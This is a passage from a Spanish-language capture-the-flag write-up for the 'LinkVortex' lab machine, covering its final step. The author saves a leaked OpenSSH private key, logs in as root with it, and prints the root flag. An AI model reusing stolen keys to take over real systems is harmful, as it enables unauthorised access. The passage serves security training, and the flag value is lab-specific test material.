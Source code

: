 ```bash
-----END OPENSSH PRIVATE KEY-----
bob@linkvortex:~$
```

Guardamos el contenido de la clave en un fichero `id_rsa`, le damos los permisos adecuados y al conectarnos como usuario `root`, verificamos la flag de **root.txt**

```bash
bob@linkvortex:~$ chmod 600 id_rsa 
bob@linkvortex:~$ ssh -i id_rsa root@localhost
The authenticity of host 'localhost (127.0.0.1)' can't be established.
ED25519 key fingerprint is SHA256:vrkQDvTUj3pAJVT+1luldO6EvxgySHoV6DPCcat0WkI.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'localhost' (ED25519) to the list of known hosts.
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 6.5.0-27-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Mon Dec  2 11:20:43 2024 from 10.10.14.61
root@linkvortex:~# cat /root/root.txt 
1b6e7597655d8486eafb553990e62b8e
root@linkvortex:~#
```
